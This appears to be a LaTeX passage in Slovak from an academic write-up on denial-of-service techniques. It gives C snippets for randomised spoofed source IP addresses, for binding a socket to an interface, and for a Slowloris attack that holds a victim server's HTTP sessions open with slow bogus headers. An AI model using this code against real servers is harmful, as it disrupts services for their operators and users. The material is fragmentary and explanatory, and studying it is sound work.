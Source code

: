 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Vytvorenie náhodnej IP adresy obmedzenej podsieťou]
in_addr_t ip_random(in_addr_t net, int cidr)
{
    in_addr_t net_mask = (~0 << (32 - cidr));
    in_addr_t host_mask = ~net_mask;
    in_addr_t target_host = 0;
    if (host_mask != 0) target_host = rand() % host_mask;
    return htonl((ntohl(net) & net_mask) | target_host);
}
\end{lstlisting}

Keďže po uvedenom zásahu do zdrojovej IP adresy nedokáže systémový protokolový zásobník
priradiť MAC adresu rozhrania pôvodcu, pretože nemusí ísť dokonca ani o adresu dohľadateľnú
cez protokol ARP, je potrebné Ethernet rozhranie explicitne pomenovať. Po skopírovaní názvu 
do štruktúry \verb|ifreq| vyhľadáme index cez systémové volanie \verb|ioctl| a cez \verb|setsockopt| 
a vlajku \verb|SO_BINDTODEVICE| napojíme socket na príslušné linkové rozhranie.
\begin{lstlisting}
strcpy(ifr.ifr_name, "enp3s0"); 
ioctl(s, SIOCGIFINDEX, &ifr);
setsockopt(s, SOL_SOCKET, SO_BINDTODEVICE, &ifr);
\end{lstlisting}

Narozdiel od záplavových útokov, kedy je myšlienkou zapratať sieť obete, spočíva útok Slowloris
v obsadení všetkých nadviazateľných HTTP relácii s webovým serverom neukončením žiadnej požiadavky
dvojicou nových riadkov ako ukladá protokol HTTP, ale pomalým posielaním stále ďalších podvodných
hlavičiek. Vypršaním časovača na strane webservera sú spojenia pomaly uzatvárané s chybovým
stavovým kódov, preto je nutné ich pravidelne obnovovať. Tentoraz nevieme podsunúť neplatnú adresu
zdroja, pretože agent musí kompletne nadviazať TCP spojenie. 
 
\begin{lstlisting}[caption=Odoslanie HTTP GET požiadavky s náhodným URL query parametrom]
int s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&victim, sizeof(victim))
snprintf(buffer, LEN, "GET /?%d HTTP/1.1\r\n", rand() % 1000);
send(s, buffer, strlen(buffer), 0);
\end{lstlisting}

\begin{lstlisting}[caption=Udržiavanie živosti relácie pravidelným posielaním nových dát]
for (int i = 0; i < CNT; i++) {
    snprintf(buffer, BUF_LEN, "X-a: %d\r\n", randint(1, 50000));
    send(sockets[i], buffer, strlen(buffer), 0); }
sleep(10);
\end{lstlisting}
\end{document}
